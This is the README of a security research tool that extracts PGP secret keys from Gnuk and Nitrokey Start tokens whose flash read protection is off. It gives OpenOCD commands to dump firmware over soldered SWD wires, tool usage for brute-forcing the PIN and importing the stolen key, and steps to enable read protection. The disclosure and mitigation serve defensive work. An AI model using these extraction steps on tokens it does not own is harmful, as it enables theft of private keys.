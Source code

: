Gnuk Extractor
==============

This tool can extract the PGP secret keys from the dumped firmware of a [Gnuk](https://salsa.debian.org/gnuk-team/gnuk/gnuk) token.
It was tested on a [Nitrokey Start](https://shop.nitrokey.com/shop/product/nitrokey-start-6)
and on a Gnuk Token made from a [$2 ST-LINK/V2 clone](https://blog.danman.eu/2-usb-crypto-token-for-use-with-gpg-and-ssh/).

In theory, the flash memory on the *Nitrokey Start* should have the read protection enabled.
However, [this was not the case](https://github.com/Nitrokey/nitrokey-start-firmware/issues/14) on the one I received.
The [next section](#extract-firmware-and-unique-device-id) describes how to verify if the read protection is enabled and extract the firmware if it is not.
Then, this tool can be used to bruteforce the PIN and extract the PGP secret keys.
Finally, the [last section](#how-to-protect-a-gnuk-token) explains how to protect a Gnuk Token against this attack.


Extract Firmware and Unique Device ID
-------------------------------------

The Gnuk firmware and the unique device ID (UDID) can be extracted from the STM32 microcontroller through the
[Serial Wire Debug](https://en.wikipedia.org/wiki/JTAG#Similar_interface_standards) (SWD) interface.
The following pictures show where to solder the 4 SWD wires on a *Nitrokey Start*
and how to connect them to a cheap [ST-LINK/V2 clone](https://www.aliexpress.com/wholesale?SearchText=st-link+v2).

![SWD connection on Nitrokey side](resources/swd-nitrokey.jpg)
![SWD connection on ST-LINK/V2 side](resources/swd-stlinkv2.jpg)

[OpenOCD](http://openocd.org/) can then be used to dump the flash memory and read the STM32 UDID.
The Gnuk token must also be connected to USB before executing the following commands.

```
$ openocd -f resources/stm32read.cfg
...
Info : flash size = 128kbytes
wrote 131072 bytes to file firmware.bin from flash bank 0 at offset 0x00000000 in 2.207341s (57.988 KiB/s)

$ openocd -f resources/stm32udid.cfg
...
0x1ffff7e8 34 ff 6c 06 4e 55 37 32 26 33 24 43             4.l.NU72&3$C
```

In the above example, the firmware was successfully extracted to `firmware.bin` and the STM32 UDID is `34ff6c064e55373226332443`.

On devices where the read protection is correctly enabled, the output looks similar to the following one.

```
$ openocd -f resources/stm32read.cfg
...
Info : flash size = 128kbytes
Error: error reading to flash at address 0x08000000 at offset 0x00000000
Error: Read error

$ openocd -f resources/stm32udid.cfg
...
embedded:startup.tcl:21: Error: error reading target @ 0x00000
```

This means that the firmware cannot be extracted through the SWD interface and this tool cannot be used to recover the PGP secret keys.


Install in a virtualenv
------------------------

```
git clone https://github.com/rot42/gnuk-extractor
virtualenv -p python3 venv
. ./venv/bin/activate
pip install ./gnuk-extractor
```


Gnuk extractor usage
--------------------

```
usage: gnuk-extractor [-h] [-o FILE] [-d DICT] -f FW -k PUB -u UDID

Extract PGP private key from GNUK / Nitrokey Start firmware.

optional arguments:
  -h, --help            show this help message and exit
  -o FILE, --out FILE   export private key to FILE [default: stdout]
  -d DICT, --dict DICT  password dictionary

required arguments:
  -f FW, --fw FW        GNUK / Nitrokey Start firmware
  -k PUB, --key PUB     corresponding GPG public key
  -u UDID, --udid UDID  STM32 unique device ID
```

### Example

```
$ gnuk-extractor -f tests/firmwares/nistp256.firmware.bin \
                 -k tests/pubkeys/nistp256.pub.key.asc \
                 -u 34ff6c064e55373226332443 | gpg --import
[INFO] Firmware unlocked with default password: b'123456'
gpg: key BD9FD171C654FBBB: public key "NIST P-256 test key <secp256r1@test.key>" imported
gpg: key BD9FD171C654FBBB: secret key imported
gpg: Total number processed: 1
gpg:               imported: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1

$ gpg -K
/home/user/.gnupg/pubring.kbx
-----------------------------
sec   nistp256/0xBD9FD171C654FBBB 2019-04-26 [SC] [expires: 2029-04-23]
      41516C79920336EFFD758288BD9FD171C654FBBB
uid                   [ unknown] NIST P-256 test key <secp256r1@test.key>
ssb   nistp256/0x4FC05EC0115BA7C8 2019-04-26 [E] [expires: 2029-04-23]
ssb   nistp256/0x395F280AA0766B5A 2019-04-26 [A]
```


How to Protect a Gnuk Token
---------------------------

There are two options to enable the read protection on a Gnuk token.

1. It is possible to [ugprade the firmware](https://github.com/Nitrokey/nitrokey-start-firmware/blob/gnuk1.2-regnual-fix/prebuilt/README.md#firmware-upgrade-instructions) through USB.
   The `upgrade_by_passwd.py` script will enable the read protection after installing the new firmware.
   This will however delete the secret keys from the token, so this method can only be used if the user has a backup of their PGP secret key.
  
        $  python3 ./upgrade_by_passwd.py ../prebuilt/RTM.7/regnual.bin ../prebuilt/RTM.7/gnuk.bin 
        Admin password: 
        ...
        Protecting device
        Finish flashing
        Resetting device
        Update procedure finished
        ...

2. The read protection can also be enabled through the SWD interface. This method has the advantage of not erasing the keys currently on the token, but requires a bit of soldering.
   The 4 SWD wires should be connected [as described above](#extract-firmware-and-unique-device-id) and then *OpenOCD* can be used to enable the read protection.

        $ openocd -f resources/stm32lock.cfg 
        ...
        Info : device id = 0x20036410
        Info : flash size = 128kbytes
        stm32x locked
        target halted due to debug-request, current mode: Thread 
        xPSR: 0x01000000 pc: 0x08000268 msp: 0x20005000

